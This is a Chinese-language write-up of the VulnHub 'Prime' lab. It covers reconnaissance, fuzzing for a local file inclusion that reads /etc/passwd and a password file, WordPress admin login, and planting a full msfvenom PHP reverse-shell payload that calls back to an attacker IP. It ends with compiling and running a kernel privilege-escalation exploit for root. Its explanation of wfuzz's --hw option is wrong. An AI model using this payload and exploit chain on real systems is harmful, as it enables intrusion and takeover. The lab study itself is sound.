


靶场介绍
Prime是vulnhub靶场环境的一个简单的利用靶场，我们可以在vulnhub的官网里搜索到它，Prime系列共有六个靶场，本次使用的是19年出的第一个靶场环境。
信息收集
首先用nmap对本机192.168.23.0网段探测存活主机并获取开放端口。

找到了靶机，开放了两个端口：22和80. 22显然不能正面硬刚，所以从80端口下手。
现在我们对靶机的目录情况全然不知，用dirb扫描一下，探测一下目录。
扫到了一个dev目录。还发现靶机运行着wordpress服务。
先看dev

用dirb继续扫描，这次加上-X扩展扫描，特定地扫描.txt以及.php格式的文件。
扫到了这三个内容，一个一个看。
secret.txt给了一个hint，需要我们fuzz一个php，找到参数把location.txt传进去。
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hw 12 http://192.168.23.156/index.php\?FUZZ
这段命令是使用 wfuzz 工具进行模糊测试（Fuzzing）的示例。wfuzz 是一个基于 Python 的网络模糊测试工具，用于发现 Web 应用程序中的漏洞，如注入漏洞、跨站脚本（XSS）等。下面是对命令的详细解释：
wfuzz：这是调用 wfuzz 工具的命令。-w /usr/share/wfuzz/wordlist/general/common.txt：这个选项指定了用于模糊测试的单词列表。-w表示单词列表（wordlist），后面跟着的是单词列表的路径。在这个例子中，使用的是 wfuzz 自带的一个通用单词列表，包含了常见的测试字符串。--hw 12：这个选项表示设置 HTTP 响应头的最大长度为 12。--hw是--hlen的简写，用于指定 HTTP 响应头的最大长度。如果响应头的长度超过这个值，wfuzz 会认为这个响应是异常的，可能会包含漏洞。http://192.168.23.156/index.php?FUZZ：这是要测试的目标 URL。FUZZ是一个占位符，wfuzz 会自动将单词列表中的每个单词替换到这个位置，然后发送请求以测试不同的输入。
综合起来，这段命令的作用是：使用 wfuzz 工具，通过 /usr/share/wfuzz/wordlist/general/common.txt 这个单词列表，对 http://192.168.23.156/index.php 这个 URL 进行模糊测试，寻找可能存在的漏洞。测试过程中，会检查 HTTP 响应头的长度，如果超过 12，会认为可能存在异常。
fuzz出了file这个参数，把location.txt传进去。
给了一个secrettier360参数，联想到前面还有image.php，我们把这个secrettier360传给它，并赋值为/etc/passwd
payload = http://192.168.23.156/image.php?secrettier360=/etc/passwd
提示去/home/saket/目录下找一个password.txt文件，依旧利用这个参数。
payload = http://192.168.23.156/image.php?secrettier360=/home/saket/password.txt

这个密码经测试，不是靶机中几个用户的密码。联想到靶机上运行着wordpress服务，猜测是wordpress上管理员账户的密码。
只有一个用户，那就是他了。
前面扫到了wp-login。我们进入http://192.168.23.156/wordpress/wp-login ，用victor作为用户名，前面获取的follow_the_ippsec为密码进行登录，成功登录。
渗透提权
在Appearance下Theme Editor下找到了secret.php这个可修改文件，我们用msfvenom做个马挂上去。
msfvenom -p php/meterpreter/reverse_tcp
<?php /**/ error_reporting(0); $ip = '10.2.134.110'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
这个马的原理是：在访问php文件时，服务器会执行secret.php中的php代码。这是建立连接的关键，所以需要把控一下顺序：先打开msfconsole进行监听，然后再访问挂马的网页。
secret.php的位置在哪里？前面dirb扫描目录的时候扫描到了“http://192.168.23.156/wordpress/wp-content/themes/ ” 这个目录，那就是在这里了。为什么？
一般情况下，themes目录存放着wordpress的主题文件，文件夹名一般为主题名。secret.php显然在twentynineteen里，那我们就访问这个目录下的secret.php。
kali上，msfconsole提前准备好。
use exploit/multi/handler
set LHOST 172.19.15.230
set payload php/meterpreter/reverse_tcp
run
然后访问http://192.168.23.156/wordpress/wp-content/themes/twentynineteen/secret.php
成功连接。系统是ubuntu 16.04，我们需要找一个适用的exp。
searchsploit 16.04 ubuntu
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation | linux/local/45010.c
find /usr -name 45010.c
/usr/share/exploitdb/exploits/linux/local/45010.c
gcc编译一下，由于本机环境glibc版本过高，加上-static参数进行静态编译，把所有依赖库全部打包编译进去防止依赖报错。
gcc /usr/share/exploitdb/exploits/linux/local/45010.c -o 45010 -static
msfconsole那边，把exp upload上去。
upload ~/45010 /tmp/45010
然后开个shell
shell
cd /tmp
chmod +x 45010
./45010
whoami
#root
提权成功。